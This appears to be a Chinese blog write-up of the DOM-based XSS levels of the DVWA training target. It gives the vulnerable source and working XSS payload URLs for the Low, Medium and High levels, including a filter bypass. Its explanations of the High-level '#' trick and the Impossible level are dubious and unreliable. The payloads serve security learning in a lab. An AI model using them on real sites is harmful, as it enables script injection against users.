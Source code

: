 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (DOM)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (DOM)，即DOM型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-22
author:     HouKC
header-img: img/home-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (DOM)

DOM型的XSS一般需要找到修改HTML内容的JavaScript代码，包含类似document.body.innerHtml的代码内容。



## 0x01 Low

#### 源码分析
```html
<div class="body_padded">
	<h1>Vulnerability: DOM Based Cross Site Scripting (XSS)</h1>

	<div class="vulnerable_code_area">
 
 		<p>Please choose a language:</p>

		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	</div>
```
可以看到在index.php中的script标签中，有一段JavaScript代码，意思是在select下拉框中会输出当前url中的default参数的值，可以直接插入XSS攻击脚本。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
弹窗成功！ 



## 0x02 Medium

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```
在Low级别的基础上，后台还做了检查，stripos函数过滤掉script。

大小写与双写均无法绕过，可以用img等标签攻击，但是需要闭合option和select标签，因为img标签无法在option和select标签内生效。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English</option></select><img src='1' onerror='alert(1);'/>
```
弹窗成功！ 



## 0x03 High

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```
在Low级别的基础上，做了switch-case选择，只有在正确匹配的时候才会继续，否则都默认跳转到default=English的情况。

咋一看可能没有办法绕过了，但是php中还可以利用单行注释符#号进行绕过。

#### 解题思路
构造注入语句如：
```html
French# <script>alert(1);</script>
```
就会在case的时候只用#号前面的字符串进行匹配，即French（使用其它几个也可以），后面的攻击代码会被当做注释；但整个字符串在后面还是会作为变量继续在HTML中输出。从而导致XSS攻击。

在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English# <script>alert(1);</script>
```
弹窗成功！



## 0x04 Impossible

#### 源码分析
无源码。

这一级别是直接用客户端浏览器自带的XSS Filter功能来防止弹框，而没有设置后台XSS检查。

打开ie浏览器 -> Internet选项 -> 隐私 -> 勾选\“启用弹出窗口阻止程序\” -> 确定。

然后再去访问如下链接时：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
就会发现浏览器进行了阻止，从而达到保护的目的。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 同其他类型XSS注入一样。
- 客户端浏览器自身启动XSS Filter功能。